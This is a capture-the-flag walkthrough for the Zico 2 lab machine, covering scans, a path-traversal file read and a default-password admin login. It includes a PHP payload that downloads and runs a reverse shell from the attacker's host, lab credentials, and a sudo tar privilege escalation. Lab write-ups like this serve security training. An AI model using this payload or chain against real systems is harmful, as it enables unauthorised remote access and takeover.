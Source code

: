 # Zico 2
### Users
```
zico
```
### Credentials
```
zico:zico2215@
root:34kroot34

DB Password - Wordpress
zico:sWfCsfJSPV9H3AmQzw8

SSH Creds
zico:sWfCsfJSPV9H3AmQzw8
```
## Nmap Scan
```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Zico's Shop
|_http-server-header: Apache/2.2.22 (Ubuntu)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          41708/udp   status
|   100024  1          43168/tcp   status
|   100024  1          44868/udp6  status
|_  100024  1          59995/tcp6  status
43168/tcp open  status  1 (RPC #100024)
```
## Enumeration
### Web Services
__/view.php?page=../../../../../../../etc/passwd__
* Vulnerable to LFI
* Able to read /etc/passwd
```
## FUZZING ##
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.1.48/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
________________________________________________

js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 1ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 1ms]
img                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 0ms]
tools                   [Status: 200, Size: 8355, Words: 3291, Lines: 186, Duration: 0ms]
index                   [Status: 200, Size: 7970, Words: 2382, Lines: 184, Duration: 1ms]
view                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
dbadmin                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 1ms]
vendor                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 1ms]
package                 [Status: 200, Size: 789, Words: 112, Lines: 30, Duration: 1ms]
server-status           [Status: 403, Size: 293, Words: 21, Lines: 11, Duration: 0ms]
```
__/dbadmin/test_db.php__
* Exposed a phpLiteAdmin v1.9.3 database using a default password of "admin"
* Inside I found an info database with user zico and root hashes
### Machine Enumeration
```
## ARCHITECTURE ##
/bin/bash: ELF 64-bit LSB executable, x86-64, version 1 (SYSV),
dynamically linked (uses shared libs), for GNU/Linux 2.6.24,
BuildID[sha1]=0x22aaca9f1cf671f1833596d2d3a06c99176d9d33, stripped

## KERNEL ##
Linux zico 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012
x86_64 x86_64 x86_64 GNU/Linux

## RELEASE ##
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=12.04
DISTRIB_CODENAME=precise
DISTRIB_DESCRIPTION="Ubuntu 12.04.5 LTS"
NAME="Ubuntu"
VERSION="12.04.5 LTS, Precise Pangolin"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu precise (12.04.5 LTS)"
VERSION_ID="12.04"

======================================================================================

## zico USER ##

#! sudo -l !#
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip

#! SUID !#
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/pppd
/usr/sbin/uuidd
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/mtr
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/sudoedit
/usr/bin/at
/sbin/mount.nfs
/bin/fusermount
/bin/umount
/bin/ping6
/bin/su
/bin/mount
/bin/ping

#! GUID !#
/usr/sbin/uuidd
/usr/bin/bsd-write
/usr/bin/crontab
/usr/bin/mlocate
/usr/bin/mail-touchlock
/usr/bin/dotlockfile
/usr/bin/wall
/usr/bin/ssh-agent
/usr/bin/mail-lock
/usr/bin/mail-unlock
/usr/bin/expiry
/usr/bin/chage
/usr/bin/at
/sbin/unix_chkpwd
```
## Gaining a Foothold / Privilege Escalation
First glance on the port 80, and I found and LFI vulnerability which I used to read /etc/passwd and enumerate the user “zico”. 

Since I could not find anything else by manual enumeration, I started ffuf scanning with raft-medium-directories list and found a “dbadmin” directory which contained test_db.php file. When opening it it is a phpLiteAdmin database interface, and using default password “admin” I can log in.

Using this interface I was able to exploit a PHP Remote Code Execution vulnerability in the software and get a reverse shell. I had done this by creating a database named “hack” with a default value of:
```
<?php system("wget 192.168.1.253:8000/php-reverse-shell.php -O /tmp/reverse-shell.php; php /tmp/reverse-shell.php"); ?>
```
* *This command will connect to our machine’s python server download the reverse shell file and execute it in the machine connecting to our listener.*
Now to access this I can leverage the LFI vulnerability since in the dashboard there is a file path where my database is stored. So when navigating to ../../../../../usr/databases/hack (note there is no extension) the php code will execute and there will be a shell on our listener for the www-data user.

Looking through the machine I found a wordpress directory in the user “zico” home directory. In the wp-config.php we can see credentials for the MySQL database. trying to access it we get permission denied, but when trying to SSH with the same credentials we are successfull since use “zico” reused his credentials.

As a real user i decided to run “sudo -l” and got back two binaries I could run with sudo even without password; /bin/tar and /usr/sbin/zip. Going on GTFObins and searching you can find ways for both these binaries, I went with the tar way. Executing a one liner from GTFObins I successfully got root user shell and root level permissions on the machine.
### Journal
* When I was creating a database at first I would create a database whose name would end in a .php extension and it would not work only when I removed the .php from the name it executed
